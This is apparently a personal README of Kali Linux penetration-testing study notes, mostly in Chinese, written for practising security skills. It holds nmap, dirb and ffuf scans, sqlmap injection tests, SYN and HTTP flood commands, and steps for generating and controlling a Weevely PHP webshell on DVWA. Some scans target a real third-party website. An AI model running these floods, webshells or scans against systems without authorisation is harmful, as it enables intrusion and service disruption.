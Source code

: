# Kali-one This is a Information-security Learning of Tien-Wei Hsu
https://explainshell.com/
https://www.mediacollege.com/linux/command/linux-command.html

# ping with windows
ping 8.8.8.8 -c 4  

# ping forom windows to kali-linux
wsl ping 8.8.8.8 -c 4

🔹 1. nmap

用途：網路掃描器。

功能：偵測一台電腦或伺服器有哪些「開放的 Port」、執行什麼服務（HTTP、FTP、SSH…）、可能的作業系統。

舉例：

nmap -sV -p 4173 192.168.0.132

直接加 -Pn，告訴 Nmap「不要先 ping，直接掃 port」：
nmap -sV -p 8000 -Pn 192.168.0.132

-sV = 掃描並嘗試判斷服務版本

-p 4173 = 只掃 port 4173（你的網站）
👉 可以幫你確認「4173 port 是不是 Vite / Node.js 在跑」。


nmap --script http-enum -p 8000 -Pn 192.168.0.132
→ 嘗試列舉 Web 服務的路徑。

bash
複製程式碼
nmap --script http-title -p 8000 -Pn 192.168.0.132
→ 看看首頁標題（通常可判斷是不是 Django/FastAPI app）。

🔹 2. nikto

用途：Web 弱點掃描器。

功能：針對網站進行自動化檢查，測試是否有：

預設或錯誤的伺服器設定（比如敏感檔案 /robots.txt、.git/ 洩漏）

舊版本伺服器軟體漏洞

常見的弱點（XSS、目錄遍歷、錯誤訊息洩漏）

舉例：

nikto -h http://192.168.0.132:4173


👉 它會跑一連串測試，給你一份「安全檢查報告」。

➡️ 定位：自動掃描階段 → 快速找到常見問題。

🔹 3. Burp Suite

用途：Web 安全測試工具（算是「駭客的瑞士刀」）。

功能：

當「瀏覽器代理 (Proxy)」→ 可以攔截、修改、重送你的 HTTP 請求。

模擬攻擊 → 試探 SQL Injection、XSS、弱認證等。

暴力測試 → 自動嘗試一堆 payload（像字典攻擊）。

舉例：

開啟 Burp Suite

設定瀏覽器代理到 127.0.0.1:8080

瀏覽 http://192.168.0.132:4173

你發出的每個 request 都會被攔截，你可以改動參數（例如登入密碼）再送出。

➡️ 定位：手動 / 半自動攻擊階段 → 深入分析、嘗試繞過安全檢查。

🔹 如何在 Kali 測試

用 curl 發送測試請求

curl -X POST http://192.168.0.132:8000/api/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin"}'


用 Burp Suite / OWASP ZAP

攔截請求

修改 payload

觀察伺服器回應

自動化測試工具

sqlmap：專門測試 SQL Injection

sqlmap -u "http://192.168.0.132:8000/api/login" --data="username=admin&password=123"

-------------------
版本探測 (安全一點的方式)

nmap -sV -p 80,443 www.desmos.com


→ 可以顯示 Web 伺服器的版本（例如 Nginx/Apache/CloudFront）。

SSL/TLS 設定探測

nmap --script ssl-enum-ciphers -p 443 www.desmos.com


→ 可以列出 HTTPS 的加密協議，檢查安全性（例如是否支援 TLS 1.0/1.1）。

如果只是練習，可以對自己控制的伺服器跑更多深入掃描，例如 -A（OS 探測 + 版本 + traceroute + script）。

-------------------

🔹 偵測路徑

dirb 較常使用
dirb http://192.168.0.132:8000


ffuf -u http://192.168.0.132:8000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

ASP.NET 系統常有 .aspx, .asp, .bak, .config：
ffuf -u http://ip:port/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e .aspx,.asp,.bak,.config -fc 404

-------------------

🔹 DDOS Test

GoldenEye（HTTP Flood）
python3 goldeneye.py http://192.168.0.132:8000/

hping3（SYN Flood） 洪水型攻擊 但似乎有點沒用
sudo hping3 -S --flood -V -p 8000 192.168.0.132

-------------------

DVWA Agent -> account:admin password:password \n

🔹 文件上傳攻擊 Upload attack

在 Kali Linux 裡，Weevely 是一個常見的 webshell 工具，用來建立後門、遠端控制網站伺服器。

weevely generate <password> <output_file>

在目標文件上傳 shell.php

啟動: weevely http://localhost:8080/hackable/uploads/shell.php 123456

the latest weevely need to fix the import telnetlib, just comment it.

sudo nano /usr/share/weevely/modules/backdoor/tcp.py

control the webshell

weevely http://localhost:8080/hackable/uploads/shell.php 123456

